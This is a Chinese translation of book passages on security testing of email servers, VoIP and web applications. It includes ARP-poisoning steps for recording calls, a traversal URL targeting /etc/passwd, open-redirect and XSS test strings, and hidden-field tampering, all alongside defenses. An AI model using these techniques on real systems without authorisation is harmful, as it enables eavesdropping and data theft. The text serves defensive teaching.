除了测试防病毒软件外，您还可以使用本书中介绍的其他工具来攻击电子邮件系统。Metasploit（[`https://www.metasploit.com`](https://www.metasploit.com)）可帮助您发现 Exchange 等服务器的缺失补丁，这些补丁可能被黑客利用。Brutus（[`www.hoobie.net/brutus`](http://www.hoobie.net/brutus)）可用于测试 POP3/IMAP 密码的破解，以及网页邮件系统的网页密码。

### 一般最佳实践：最小化电子邮件安全风险

以下措施有助于尽可能保持消息的安全。

#### 软件解决方案

正确的软件可以中和许多威胁：

*   在邮件服务器上（更好是邮件网关）使用防病毒软件，以防止恶意软件到达电子邮件客户端。Google 和 Microsoft 等云端邮件服务通常已内置此类防护。在客户端上使用防病毒软件是必然的。

*   持续且在安全警报发布后及时应用最新的操作系统（OS）和邮件服务器安全补丁。

*   加密（在合理的前提下）。您可以使用传统的 S/MIME 或 PGP 加密敏感消息，或在桌面、服务器或邮件网关层面使用邮件加密。更佳（更易）的做法是使用 TLS 通过 POP3S、IMAPS 和 SMTPS 协议加密。最佳选择可能是使用支持通过 Web 浏览器通过 HTTPS 发送和接收加密邮件的邮件安全硬件或云服务，例如 G Suite 和 Office 365。

    不要依赖用户自行加密消息。与任何其他安全策略或控制一样，依赖用户做出安全决策往往效果不佳。应使用企业解决方案自动加密消息。

    确保加密文件和邮件能够防范恶意软件。加密不能阻止恶意软件进入文件或邮件，它只是使恶意软件在文件或邮件中保持加密状态。加密会阻止服务器或网关防病毒软件在恶意软件到达桌面之前检测到该恶意软件。

*   制定政策，要求用户不要打开来自陌生发送者或不可信来源的电子邮件附件，并开展持续的意识宣传和提醒。

*   为那些忽视或忘记遵守“不打开 unsolicited emails and attachments”政策的用户做好准备。这会发生！某些软件（如 Microsoft Outlook 和 Windows SmartScreen）可以帮助用户识别恶意内容。

#### 操作指南

一些简单的操作规则可以让防火墙保持高，攻击者难以进入您的电子邮件系统：

*   将邮件服务器放在与 Internet 和内部 LAN 处于不同网络段的防火墙后面，最好放在非军事区（DMZ）中，或使用邮件网关。

*   通过禁用邮件服务器上未使用的协议和服务来加硬化系统。

*   如果可能，在专用服务器上运行邮件服务器并进行恶意软件扫描（甚至可以将入站和出站消息分开）。这样可以在邮件服务器被入侵时，防止恶意攻击扩散到其他服务器和信息。

*   记录所有与服务器的交易，以便在需要时进行调查。务必监控这些日志！如果无法证明监控的必要性，可考虑将此功能外包给托管安全服务提供商。


如果你的服务器不需要运行特定的电子邮件服务（SMTP、POP3 和 IMAP），请立即禁用它们。

对于基于 Web 的电子邮件服务，例如 Microsoft 的 Outlook Web Access（OWA），请通过本书中提到的测试技术和硬化资源，正确测试并保护你的 Web 服务器应用程序和操作系统。

强制使用强密码。对于独立账户以及域级 Exchange 或类似账户，网络中的任何密码弱点都会传递到电子邮件，并被通过 Outlook Web Access 或 POP3 利用。我在 第 8 章 中介绍了密码破解。

请确保在你的漏洞扫描和渗透测试中包含邮件服务器。

如果你运行的是 sendmail（尤其是旧版本），请不要使用它。考虑改用安全的替代方案，例如 Postfix（[www.postfix.org](http://www.postfix.org)）或 qmail（[www.qmail.org](http://www.qmail.org)）。

## 了解 VoIP

当今企业中广泛使用的技术是 Voice over Internet Protocol（VoIP）。内部 VoIP 系统、远程用户系统、VoIP 服务器、软电话以及相关组件都有各自的安全漏洞。与大多数安全相关事务一样，许多人并未考虑到 voice conversations 通过网络或 Internet 传输时的安全问题，但这些问题必须列入你的视野。别担心——这还来得及纠正。只要记住，即使已有防护措施，VoIP 系统仍需在你的整体安全测试策略中持续纳入。

### VoIP 漏洞

正如任何技术或网络协议集合一样，坏人总会找到办法进入系统。VoIP 也不例外。事实上，考虑到电话通话和系统可用性的重要性，你损失的潜在风险更大。

VoIP 相关系统的安全性与其他常见计算机系统并无明显差异。原因在于：VoIP 系统拥有自己的操作系统，拥有 IP 地址，并且可在网络中访问。更糟的是，许多 VoIP 系统包含更多“智能”（即更多可能出错的内容），这使得 VoIP 网络更容易被攻击。

如果你想了解 VoIP 的工作原理，这将有助于你发现漏洞，请参考 *VoIP For Dummies*，作者 Timothy V. Kelly（John Wiley & Sons, Inc.）。

一方面，VoIP 系统的漏洞与本书其他系统相似，包括默认设置、缺失补丁和弱密码。因此，使用本文中介绍的标准漏洞扫描工具至关重要。图 14-12 展示了 VoIP 适配器 Web 界面认证机制的多种漏洞。


FIGURE 14-12:  A WebInspect scan of a VoIP network adapter showing several weaknesses.

观察这些结果，你可能会认为该设备是基础的 Web 服务器。这正是我的要点：VoIP 系统不过是网络化的计算机系统，拥有可被利用的漏洞。

另一方面，两大与 VoIP 相关的安全弱点：

*   **电话服务中断**：是的，VoIP 易受 DoS 攻击，和任何其他系统或应用一样。由于人们对音质的容忍度极低（手机除外），VoIP 与时敏感型应用一样脆弱。

*   **缺乏加密**：VoIP 的另一大弱点是通话通常不加密，导致可被拦截和录制。想象一下，坏人可以录下对话并进行勒索。这种攻击在未保护的无线网络上极易实施，但如我在即将到来的章节“捕获和录制声音流量”中所示，有线网络同样容易受到影响。

如果 VoIP 网络未通过网络分段（如 VLAN）进行保护，声音网络将特别容易窃听、DoS 及其他攻击。但 VLAN 防线在许多环境中可被称为 VoIP Hopper（[`voiphopper.sourceforge.net`](http://voiphopper.sourceforge.net)）所突破。当你以为声音系统已安全时，这类工具会出现，它们虽旧，但仍可用于此类测试。

与常规计算机安全漏洞不同，VoIP 问题并非仅靠简单的软件补丁即可解决。它们根植于 Session Initiation Protocol（SIP）和 Real-Time Transport Protocol（RTP），VoIP 用于通信的两种协议。下面的章节将介绍两项专注于 VoIP 的测试方法，帮助你评估声音系统的安全性。

需要注意的是，尽管 SIP 是最常用的 VoIP 协议，H.323 也存在，因此如果使用的是 H.323，请不要浪费时间测试 SIP 漏洞。请参阅 [www.packetizer.comi/ipmc/h323_vs_sip](http://www.packetizer.comi/ipmc/h323_vs_sip) 获取 H.323 与 SIP 的详细对比。

#### 漏洞扫描

除基本的网络、操作系统和 Web 应用漏洞外，使用合适的工具可以发现 VoIP 问题。好消息是，你很可能已经拥有这些工具——网络漏洞扫描仪如 Nexpose（[`www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose)），以及 Web 漏洞扫描仪如 Netsparker（[`www.netsparker.com`](https://www.netsparker.com)）。VoIP 呼叫管理器和电话中常见的弱密码、跨站脚本以及未打补丁的漏洞，可利用 Metasploit 等工具进行利用。

Kali Linux 内置了多种 VoIP 工具，位于 Applications/Vulnerability Analysis/VoIP Tools。其他免费的 SIP 流量分析工具包括 PROTOS（[www.ee.oulu.fi/research/ouspg/protos/testing/c07/sip/index.html](http://www.ee.oulu.fi/research/ouspg/protos/testing/c07/sip/index.html)）和 sipsak（[`www.voip-info.org/wiki/view/Sipsak`](https://www.voip-info.org/wiki/view/Sipsak)）。一个汇总了大量 VoIP 相关工具的网站是 [www.voipsa.org/Resources/tools.php](http://www.voipsa.org/Resources/tools.php)。

#### 捕获和录制声音流量

如果你能访问有线或无线网络，轻松捕获 VoIP 对话，这能有效证明网络及 VoIP 部署的漏洞。

涉及电话通话窃听的法律问题很多，请确保已获得授权，并小心使用测试结果，避免滥用。

你可以使用 Cain & Abel（这里演示的功能实际上是 Cain）来窃听 VoIP 对话。免费下载地址为 [www.oxid.it/cain.html](http://www.oxid.it/cain.html)。使用 Cain 的 ARP poison routing 功能，你可以插入网络并通过以下步骤让它捕获 VoIP 流量：

1. **加载 Cain & Abel，点击 Sniffer 标签进入网络分析模式。** 默认会打开 Hosts 页面。

2. **点击带有核废料标志的 Start/Stop APR 图标。** ARP poison routing 过程开始并启用内置嗅探器。

3. **点击蓝色加号（+）图标，添加用于 ARP 中毒的主机。**


4. 在出现的 `MAC Address Scanner` 窗口中，确保选择 `All Hosts in My Subnet`，然后点击 OK。

5. 点击 `APR` 标签页（带有黄黑圆形图标的那个）以加载 APR 页面。

6. 点击最上方 `Status` 列标题下方的空白区域（在 `Sniffer` 标签页下方）。

    这一步会重新启用蓝色的 `+` 图标。

7. 点击蓝色的 `+` 图标。

    `New ARP Poison Routing` 窗口会显示步骤 3 中发现的主机。

8. 选择默认路由或其他你想要捕获数据包的主机（发往和发自该主机的流量）。

    我选择默认路由，但你也可以考虑选择你的 SIP 管理系统或其他中央 VoIP 系统。右侧列会填充所有剩余的主机。

9. 在右侧列中，使用 `Ctrl+click` 选择你想要“中毒”的系统，以捕获其语音流量。

    我选择我的 VoIP 网卡，但你也可以考虑选择所有 VoIP 电话。

10. 点击 OK 以启动 ARP 中毒过程。

     该过程根据你的网络硬件和每个主机的本地 TCP/IP 栈，可能需要几秒钟到几分钟。

11. 点击 `VoIP` 标签页。

     所有语音对话都会被记录。

     这里的有趣之处是：对话会以 `.wav` 音频文件格式保存，因此你只需右键单击想要测试的已录制对话，在上下文菜单中选择 **Play**（播放），如图 14-13 所示。正在记录的对话在状态列中会显示 **Recording**。


FIGURE 14-13: 使用 Cain & Abel 捕获、记录并回放 VoIP 对话。

Cain 等工具的语音质量取决于 VoIP 设备所使用的编码器。使用我的设备，我发现质量最好也只能说是一般般，但这并不算大问题。你的目标是证明漏洞的存在——而不是窃听他人的对话。

你也可以使用名为 **vomit**（全称 *voice over misconfigured Internet telephones*）的基于 Linux 的工具，它可以将 VoIP 对话转换为 `.wav` 文件。首先，你需要使用 **tcpdump** 捕获真实对话，但如果 Linux 是你的首选，该方案同样能实现与 Cain 相同的结果，步骤如前述。

如果你将大量时间用于 VoIP 工作，我强烈建议你投资一款优质的 VoIP 网络分析仪。查看 Savvius 的 Omnipeek，它是一款优秀的有线和无线分析器（[`www.savvius.com/product/omnipeek`](https://www.savvius.com/product/omnipeek)），以及 TamoSoft 的 CommView（[www.tamos.com/products/commview](http://www.tamos.com/products/commview)），后者是一个功能强大且价格更低的替代品。

这些 VoIP 漏洞仅是冰山的一角。新系统、软件和相关协议不断出现，保持警惕以确保你的对话免受恶意人员的攻击。如前所述，只要有 IP 地址或 URL，就可能成为攻击目标。

### 针对 VoIP 漏洞的防范措施

加固 VoIP 可能很棘手。不过，你可以从以下步骤开始：将语音网络划分为独立的 VLAN，或如果预算允许，甚至划分为独立的物理网络。进一步隔离任何连接 Internet 的系统，确保不是随意任何人都能连接（这一点在我看到的情形中很常见）。你还应确保所有 VoIP 相关系统均按照厂商的建议和公认的最佳实践（如 NIST 的 SP800-58 文档 https://csrc.nist.gov/publications/detail/sp/800-58/final）进行硬化，并且软件和固件需定期且持续地进行补丁。最后，定期使用网络漏洞扫描工具（如 Nexpose 或 Nessus）对语音相关系统进行扫描。如果所有的电话都是同一型号和版本，你可能只需要测试其中的一小部分。但请注意，我在观察到，当对这些电话及相关语音设备运行漏洞扫描时，它们有时会出现异常行为。

第 15 章

## Web Applications and Mobile Apps

## IN THIS CHAPTER

**Testing websites and web applications**

**Uncovering flaws in mobile apps**

**Protecting against SQL injection and cross-site scripting**

**Preventing login weaknesses**

**Analyzing software flaws manually**

**Countering web abuse**

**Analyzing source code**

网站和 Web 应用是攻击的常见目标，因为它们无处不在，且任何人都可以随意探测。用于营销、联系方式、文档下载等的基本网站尤易受攻击。像 WordPress 这类常用内容管理系统因其广泛使用且缺乏足够测试和补丁而特别容易成为攻击目标。对于黑客而言，这些网站提供了进入复杂应用和数据库的入口，数据库中存储的信用卡号、社会安全号等宝贵信息正是他们关注的重点，无论是字面上还是 figuratively。

网站和应用之所以容易受攻击，共识是因为开发和测试的软件实践不佳。这很容易让人联想到操作系统以及几乎所有计算机系统（包括汽车和物联网设备）所面临的同样问题。这种局面是依赖软件编译器进行错误检查、对更高质量软件的用户需求存疑以及过度强调上市时间和易用性而非安全性的副作用。

本章提供针对网站、应用和移动 app 的安全测试方法。鉴于配置可能性的多样性和系统的复杂性，你可以检测到成千上万种软件漏洞。本章我主要关注我在使用自动化扫描工具和手动分析时最常遇到的漏洞，并列出相应的缓解措施，以降低恶意人员对你最关键业务系统发起攻击的可能性。

我想指出，本章仅涉及所有可能的软件安全缺陷及其测试方法的表面部分。进一步提升 Web 安全测试技能的资源包括 Open Web Application Security Project（OWASP）提供的 **Top 10 Web Application Security Risks** 和 **Top 10 Mobile Risks**（https://www.owasp.org/index.php/Main_Page）。

## 选择你的 Web 安全测试工具

良好的 Web 安全测试工具能让你在工作中取得事半功倍的效果。正如生活中许多事物，我在测试 Web 安全漏洞时发现：**你得到的往往与所付出的代价相匹配**。因此，我主要使用商业工具来对网站和 Web 应用进行漏洞测试。

以下是我喜欢的 Web 安全测试工具：

*   **Acunetix Web Vulnerability Scanner**（https://www.acunetix.com） —  — 一款全能的 Web 安全测试工具，集成了端口扫描和 HTTP 抓包功能。

*   **BURP proxy**（https://portswigger.net/burp/communitydownload） —  — 用于 HTTP 代理捕获和分析的工具。


-   [Netsparker](https://www.netsparker.com) 用于一站式安全测试，通常能发现其他工具可能漏掉的漏洞。

-   [Web Developer](http://chrispederick.com/work/web-developer) 用于手动分析和操作网页。

还有许多其他专注于浏览器的工具，适合 Firefox 和 Chrome，可在 [`http://resources.infosecinstitute.com/use-firefox-browser-as-a-penetration-testing-tool-with-these-add-ons`](http://resources.infosecinstitute.com/use-firefox-browser-as-a-penetration-testing-tool-with-these-add-ons) 和 [`http://resources.infosecinstitute.com/19-extensions-to-turn-google-chrome-into-penetration-testing-tool`](http://resources.infosecinstitute.com/19-extensions-to-turn-google-chrome-into-penetration-testing-tool) 查看。

是的，你必须进行手动分析。你肯定想使用扫描器，因为扫描器能发现大约一半的问题。对于剩下的一半，你必须在扫描器之外继续深入，才能真正评估网站和应用的整体安全性。你需要进行一些手动工作，原因不是扫描器不可靠，而是手动探查 web 系统需要传统黑客技巧和你最喜欢的浏览器来完成——这些操作目前仍无法完全自动化。

你也可以使用像 Nexpose 和 Nessus 这样的通用网络漏洞扫描器，以及像 Metasploit 这样的利用工具来测试网站和应用。这些工具可帮助你在标准网络扫描工具和手动分析之外，发现（并利用）服务器层面的弱点，这些弱点可能在常规网络扫描和手动分析中被忽视。Google 也能帮助你在网站和应用中挖掘敏感信息。虽然这些非特定于应用的工具有用，但它们不会像前面列出的工具那样深入挖掘。

### 寻找 Web 漏洞

通过超文本传输协议（HTTP）对易受攻击的网站和应用进行攻击，构成了所有互联网相关攻击的大多数。大多数这些攻击即使通过 HTTPS（即通过 SSL/TLS 加密的 HTTP）进行，也能被完成，因为攻击的关键不在于传输通道，而在于网站和应用本身，或在于它们运行的服务器和浏览器软件。

许多针对网站和应用的攻击只是小烦恼，可能不影响敏感信息或系统可用性。但有些攻击会严重破坏系统，使敏感信息面临风险，甚至导致组织违反国家、联邦和国际层面的信息隐私与安全法律法规。

#### 目录遍历

我先给你展示一个简单的目录遍历攻击。目录遍历是一种基础弱点，但它可能会暴露出关于 web 系统的有趣甚至敏感的信息。该攻击涉及浏览站点，寻找服务器目录结构以及可能被有意或无意加载的敏感文件的线索。

请执行以下测试，以确定你的网站的目录结构。

##### 抓取器

像免费 HTTrack Website Copier（[`https://www.httrack.com`](https://www.httrack.com)）这样的爬虫程序可以抓取你的站点，查找所有公开可访问的文件。使用 HTTrack 时，加载它，为项目命名，并指定要镜像的网站。几分钟后（或根据站点大小和复杂度可能需要数小时），你的本地磁盘（如 `c:\My Web Sites`）将存储该站点上所有公开可访问的内容。图 15-1（Figure 15-1）展示了一个基本网站的抓取输出。


FIGURE 15-1: 使用 HTTrack 对网站进行抓取。

复杂站点往往会暴露更多不该公开的信息，包括旧数据文件以及应用脚本和源代码。

在进行网络漏洞和渗透测试时，我常常会在服务器上发现 `.zip` 或 `.rar` 文件。有时这些文件只是垃圾，但更常见的是它们包含公众不应能访问的敏感信息。一个特别突出的案例是，我发现了一个 `.zip` 文件，尝试打开时，WinZip 要求输入密码。我使用 ElcomSoft 的密码破解工具（见第 8 章 Chapter 8 了解详情）在几毫秒内破解了密码。打开该 `.zip` 文件后，里面是一份包含敏感健康信息（姓名、地址、社会安全号码等）的 Microsoft Excel 表格，任何人都可以访问。在这类情况下，你的业务可能需要通知所有受影响人员其信息保护不当并可能已被泄露。了解影响你业务的法律法规很重要，最好事先确保用户不在你的服务器上上传不当保护的敏感信息！

查看抓取程序的输出，看看哪些文件可用。普通的 HTML 和 PDF 文件通常是可以接受的，因为它们是正常网页使用所必需的。但还是不妨逐一打开这些文件，确认它们确实属于站点且不包含你不想公开的敏感信息。

##### Google

你也可以使用 Google 进行目录遍历。事实上，Google 的高级查询功能足够强大，你可以直接在搜索框中输入高级语句，快速定位敏感信息、关键服务器文件和目录、信用卡号、网络摄像头——Google 已经索引的任何内容，无需手动镜像站点再遍历所有文件。

下面是几条高级查询示例，可直接在 Google 搜索框中输入：

*   **`site:hostname keywords`** ：搜索包含你列出的任意关键词（如 *SSN*、*confidential*、*credit card*）的页面。例如：  

    `site:www.principlelogic.com` speaker

*   **`filetype:file-extension site:hostname`** ：搜索特定文件类型的特定网站，如 `doc`、`pdf`、`db`、`dbf`、`zip`。这些文件可能包含敏感信息。例如：  

    `filetype:pdf site:www.principlelogic.com`

其他高级 Google 操作符包括：

*   `allintitle`：搜索关键词出现在网页标题中的结果。
*   `inurl`：搜索关键词出现在 URL 中的结果。
*   `related`：找出与当前页面相似的页面。
*   `link`：显示链接到当前页面的其他站点。

更多定义和用法请参考 [`www.googleguide.com/advanced_operators.html`](http://www.googleguide.com/advanced_operators.html)。许多漏洞扫描器也会检查 Google Hacking Database（GHDB）站点（[`https://www.exploit-db.com/google-hacking-database`](https://www.exploit-db.com/google-hacking-database)）。


在使用 Google 搜索浏览您的网站时，请务必查找服务器、网络和组织的敏感信息，这些信息可在 Google Groups（[`http://groups.google.com`](http://groups.google.com)），即 Usenet 存档，以及 Reddit 和 Quora 等新兴站点中找到。我发现一些在线帖子泄露了过多的内部网络和业务系统信息，可能性无限。如果您发现不应该公开的内容，可以与 Google 联系，请求编辑或删除。更多信息请参阅 Google 的联系我们页面（[`https://www.google.com/intl/en/contact`](https://www.google.com/intl/en/contact)）。

从更宏观的网络安全角度来看，Google 搜索引擎的挖掘范围有限，但如果您对此感兴趣，可以查看 Johnny Long 的书籍 *Google Hacking for Penetration Testers*（Syngress）。

### 目录遍历的防范措施

您可以采用三种主要措施来防止通过恶意目录遍历导致文件被篡改：

*   **不要在 Web 服务器上存储旧的、敏感或非公开的文件。** 只能在 `/htdocs` 或 `DocumentRoot` 文件夹中放置站点正常运行所需的文件。这些文件不应包含您不希望世界看到的机密信息。

*   **配置 `robots.txt` 文件。**

    这将帮助阻止像 Google 这样的搜索引擎抓取站点的更敏感区域。

*   **确保 Web 服务器仅允许公开访问对站点正常运行所必需的目录。** 最小权限原则是关键，因此仅提供 Web 应用程序正常工作所需的文件和目录的访问权限。

    请查阅 Web 服务器文档，了解如何控制公开访问。根据您所使用的 Web 服务器版本，这些访问控制通常在 `httpd.conf` 文件和 Apache 的 `.htaccess` 文件中设置（参阅 [`http://httpd.apache.org/docs/current/configuring.html`](http://httpd.apache.org/docs/current/configuring.html)），以及 IIS 的 Internet Information Services Manager。最新版本的这些 Web 服务器默认具有良好的目录安全性，请确保您使用的是最新版本。

*   **考虑使用搜索引擎蜜罐。** 蜜罐会吸引恶意用户，让您了解攻击者是如何针对您的站点进行攻击。随后您可以利用所获知识来阻止他们。例如，Google Hack Honeypot（[`http://ghh.sourceforge.net`](http://ghh.sourceforge.net)）。

### 输入过滤攻击

网站和应用程序以几乎任何输入为准，往往错误地认为输入是有效的，并继续处理。未验证输入是 Web 开发人员犯下的最大错误之一。

一些会插入恶意或格式不当数据（通常一次性输入过多）的攻击可以针对网站或应用程序，使系统混乱并向攻击者泄露过多信息。输入攻击还能让攻击者轻易从不经意的用户浏览器中获取敏感信息。

#### 缓冲区溢出

缓冲区溢出是针对 Web 应用程序输入字段的最严重输入攻击之一。例如，一款信用报告应用程序在用户登录后才允许提交数据或查询报告。登录表单使用以下代码获取用户 ID，最大输入长度为 12 个字符（由 `maxsize` 变量指定）：

`&lt;form name="Webauthenticate" action="www.your_web_app.com/login.cgi" method="POST"&gt;&lt;input type="text" name="inputname" maxsize="12"&gt;`

典型登录会话中，有效的登录名长度不超过 12 个字符，但 `maxsize` 变量可以被修改为更大的值，例如 100 或甚至 1,000。攻击者可以在登录字段中输入伪造数据。接下来会发生什么，谁也无法预测——应用程序可能挂起、覆盖内存中的其他数据，或导致服务器崩溃。

简单的方法是通过 Web 代理（如商业漏洞扫描工具中提到的，或免费 Burp 代理）逐步操作页面提交。要使用此代理，您需要在浏览器中配置本地代理 127.0.0.1:8080。在 Mozilla Firefox 中，选择 Tools ⇒ Options，滚动至 Options 对话框底部的 Network Proxy 部分，点击 Settings，然后选择 Manual Proxy Configuration 单选按钮。在 Internet Explorer 中，点击齿轮图标并选择 Internet Options，在弹出的对话框中点击 Connections 部分的 LAN Settings，勾选 Use a proxy server for your LAN，并输入相应的主机名/IP 地址和端口号。

只需在提交前修改变量的字段长度，即可让页面以您指定的长度提交。您也可以使用 Firefox Web Developer 插件来移除 Web 表单中定义的最大字段长度，如图 15-2 所示。


FIGURE 15-2: 使用 Firefox Web Developer 重置表单字段长度。

#### URL 操纵

自动化输入攻击通过操纵 URL 将其发送回服务器，指示 Web 应用执行各种操作，如重定向到第三方站点或加载服务器上的敏感文件。本地文件包含（Local File Inclusion）就是一种此类漏洞。当应用程序接受基于 URL 的输入并将指定文件的内容返回给用户时，就会出现此漏洞，例如下面的尝试读取 Linux 服务器 `passwd` 文件的请求：

`https://www.your_web_app.com/onlineserv/Checkout.cgi?state=detail&amp;language=english&amp;imageSet=/../..//../..//../..//../..///etc/passwd`

值得注意的是，大多数现代应用平台（如 ASP.NET 和 Java）对 URL 变量的操纵防护相当出色，但我仍时常看到此漏洞。

下面的链接展示了另一种 URL 红 irection（重定向）的例子：

`http://www.your_web_app.com/error.aspx?URL=http://www.bad~site.com&ERROR=Path+'OPTIONS'+is+forbidden.http://www.your_web_app.com/exit.asp?URL=http://www.bad~site.com`

在这两种情况下，攻击者可以通过电子邮件或在网站上发布链接，诱导用户点击，从而被重定向到恶意第三方站点，那里可能包含恶意软件或不适当内容。

如果您有充足时间，可以手动寻找这类漏洞。但为了准确性（以及理智），这些攻击最好使用 Web 漏洞扫描器进行，扫描器能够在极短时间内对数百个 URL 进行迭代，快速检测弱点。

#### 隐藏字段操纵

一些网站和应用在页面中嵌入隐藏字段，用于在 Web 服务器和浏览器之间传递状态信息。隐藏字段在 HTML 表单中表现为 `<input type="hidden">`。由于编码不善，隐藏字段常常包含机密信息（例如电商站点的商品价格），这些信息本应仅存储在后端数据库中。用户不应看到隐藏字段（因此得名），但好奇的攻击者可以发现并利用它们。下面是操作步骤：

1. **查看 HTML 源代码。**


要在 Internet Explorer 和 Firefox 中查看源代码，右键单击页面并从上下文菜单中选择 "View Source" 或 "View Page Source"。

2. **更改这些字段中存储的信息。**

恶意用户可能会将价格从 $100 更改为 $10，例如。

3. **将页面重新上传到服务器。**

此步骤允许攻击者获取非法收益，例如在网络购买时获得更低的价格。

这类漏洞正在变得越来越少见，但与 URL 重写类似，利用的可能性仍然存在，因此保持警惕很有价值。

使用隐藏字段进行身份验证（登录）机制可能特别危险。我曾看到一种多因素身份验证锁定流程，它依赖于隐藏字段来记录用户登录尝试的次数。该变量可以在每次登录尝试时重置为零，从而便于脚本化的字典攻击或暴力破解登录。这或许是讽刺——设计用于*防止*入侵者攻击的安全控制本身却容易受到入侵者的攻击。

一些工具，如商业网络漏洞扫描器自带的代理以及 Burp Proxy，可以轻松地操纵隐藏字段。图 15-3 显示了 WebInspect SPI Proxy 接口以及网页的隐藏字段。


FIGURE 15-3:  使用 WebInspect 查找并操纵隐藏字段。

如果你发现隐藏字段，可以尝试对它们进行操纵，看看能做什么。方法很简单。

#### 代码注入和 SQL 注入

类似于 URL 重写攻击，代码注入攻击会操纵特定的系统变量。下面是一个示例：

`http://www.your_web_app.com/script.php?info_variable=X`

攻击者看到这个变量后，可以在 `info_variable` 字段中输入不同的数据，将 `X` 替换为诸如下面这些内容：

`http://www.your_web_app.com/script.php?info_variable=Yhttp://www.your_web_app.com/script.php?info_variable=123XYZ`

这段示例比较基础，但 web 应用可能会以提供攻击者比他们想要的更多信息的方式响应，例如返回详细错误信息或访问未授权的数据字段。无效输入也可能导致应用或服务器挂起。攻击者可以利用这些信息进一步了解 web 应用及其内部工作，进而导致严重的系统 compromise。

如果 HTTP 变量通过 URL 传递且易于访问，那么攻击者利用你的 web 应用已经只是时间问题。

我曾经使用一个用于管理个人信息的 web 应用，它正是这样的。因为 `"name"` 参数是 URL 的一部分，任何人都可以通过修改 `"name"` 的值来获取其他人的个人信息。如果 URL 包含 `"name=kbeaver"`，只需将其改为 `"name=jsmith"`，即可查看 J. Smith 的家庭地址、社会安全号码等。Ouch！我向系统管理员报告了这个漏洞。经过几分钟的否认后，他承认确实是个问题，并与开发人员一起着手修复。

代码注入也可以针对后端 SQL 数据库进行，这种攻击称为 *SQL 注入*。恶意攻击者在 URL 请求中插入 SQL 语句（如 `CONNECT`、`SELECT`、`UNION`），试图连接并从数据库中提取信息，而该数据库是 web 应用交互的对象。SQL 注入之所以能实施，是因为应用未能正确验证输入，并且数据库服务器和 web 服务器返回了信息性错误。

SQL 注入主要有两类：标准（也称为基于错误）和盲注。基于错误的 SQL 注入是利用应用在输入无效信息时返回的错误消息来进行的。盲注则是在错误消息被禁用的情况下进行，攻击者或自动化工具需要猜测数据库返回的内容以及对注入攻击的响应。

快速（但不一定可靠）判断你的 web 应用是否易受 SQL 注入的方法是：在表单字段或 URL 末尾输入一个单引号（'）。如果返回了 SQL 错误，那么大概率 SQL 注入已存在。

在查找和发现 SQL 注入缺陷时，你得到的是物有所值的回报。正如 URL 重写一样，使用漏洞扫描器进行 SQL 注入检查更为明智，它允许攻击者通过漏洞页面向后端数据库注入数据库查询和命令。图 15-4 展示了 Netsparker 漏洞扫描器发现的众多 SQL 注入漏洞。


FIGURE 15-4:  Netsparker 发现的 SQL 注入漏洞。

Netsparker 的好处在于，它在发现 SQL 注入后，提供了内置的 "Execute SQL Commands" 工具，进一步展示弱点。一张展示 SQL 注入在起作用的截图，几乎是漏洞和渗透测试能达到的最佳效果！

当你发现 SQL 注入漏洞时，可能会倾向于在此停下脚步，不再尝试利用该弱点。这没问题。但我更倾向于看看我能在数据库系统中走多远。我建议尽可能使用漏洞扫描器内置的 SQL 注入功能，以便向管理层展示漏洞的严重性。

如果预算有限，可考虑使用免费的 SQL 注入工具，如 SQL Power Injector（[www.sqlpowerinjector.com](http://www.sqlpowerinjector.com)）或 Firefox 添加程序 SQL Inject Me（[`addons.mozilla.org/en-us/firefox/addon/sql-inject-me`](https://addons.mozilla.org/en-us/firefox/addon/sql-inject-me)）。

我在 第 16 章 中深入探讨了数据库安全。

#### 跨站脚本 (XSS)

跨站脚本（XSS）可能是最为人知且最广泛存在的 web 漏洞，当网页未正确验证用户输入（通常是 JavaScript）时，就会出现该漏洞。攻击者可以利用缺乏输入过滤的机会，在任何查看该页面的计算机上执行恶意代码。

例如，XSS 攻击可以显示另一个恶意网站的用户 ID 和登录页面。如果用户不慎在该登录页面输入用户 ID 和密码，这些信息就会被记录到黑客的服务器日志中。其他恶意代码可以被发送到受害者的计算机并与查看该页面的浏览器或电子邮件应用程序以相同的权限运行。恶意代码可能赋予黑客对浏览器 Cookie 或浏览器历史记录文件的完全读写权限，甚至允许他下载或安装恶意软件。

简单的测试方法是检查应用中是否有接受用户输入的字段（如登录或搜索框），并输入以下 JavaScript 语句：

`&lt;script&gt;alert('XSS')&lt;/script&gt;`

如果弹出一个显示 `XSS` 的窗口（如图 15-5 所示），则说明该应用易受 XSS 漏洞影响。XSS‑Me Firefox 添加程序（[`addons.mozilla.org/en-US/firefox/addon/xss-me`](https://addons.mozilla.org/en-US/firefox/addon/xss-me)）也是一种测试手段。


-   脚本反射到浏览器的灵感源于需要通过 JavaScript `onmouseover` 函数进行用户交互的 XSS 利用方式。

-   与 SQL 注入一样，你真的需要使用自动化扫描工具来检测 XSS。Netsparker 和 Acunetix Web Vulnerability Scanner 都能很好地发现 XSS，但它们往往发现的 XSS 问题不同——这凸显了在可能的情况下使用多个扫描工具的重要性。

-    显示了 Acunetix Web Vulnerability Scanner 中的一些 XSS 发现示例。

-   

-   

-   另一个擅长发现许多其他扫描器无法发现的 XSS 的网页漏洞扫描器是 Rapid7 的 AppSpider（前称 NTOSpider）([`https://www.rapid7.com/products/appspider`](https://www.rapid7.com/products/appspider))。

-   在我的经验中，AppSpider 在对使用多因素认证系统的应用进行身份验证扫描时表现更好。

-   AppSpider 应该被放在你的视野中。

-   切记：在 Web 漏洞方面，扫描器越多越好！如果不这样做，别人可能会使用你未使用的扫描器。

### 对输入攻击的防范措施

-   网站和应用必须对输入数据进行过滤。

-   网站和应用必须确保输入的数据符合应用程序预期的参数范围。

-   如果数据不匹配，应生成错误信息或返回到上一页。

-   在任何情况下，应用都不应接受垃圾数据、处理它并将其反射回给用户。

-   如果将这些最佳实践作为开发过程的关键部分，安全的编码实践可以消除上述所有问题。开发人员应知晓并实施这些最佳实践：

*   永远不要向浏览器和用户展示不需要的静态值。  
    相反，这些数据应在服务器端实现，仅在需要时从数据库中获取。

*   从输入字段中过滤掉 `<script>` 标签。

*   如果可能，禁用详细的 Web 服务器和数据库相关错误信息。

### 默认脚本攻击

-   编写不佳的 Web 程序，如 PHP（超文本预处理）和 ASP（Active Server Pages）脚本，可能允许黑客查看和操作 Web 服务器上的文件，以及执行其他未授权的操作。

-   这些缺陷在开发人员、IT 人员和营销人员使用的内容管理系统中也十分常见，用于维护网站内容。

-   默认脚本攻击之所以常见，是因为大量 poorly written 代码自由可得。

-   黑客还可以利用各种示例脚本，尤其是较旧版本的 Microsoft IIS 服务器上安装的脚本。

-   

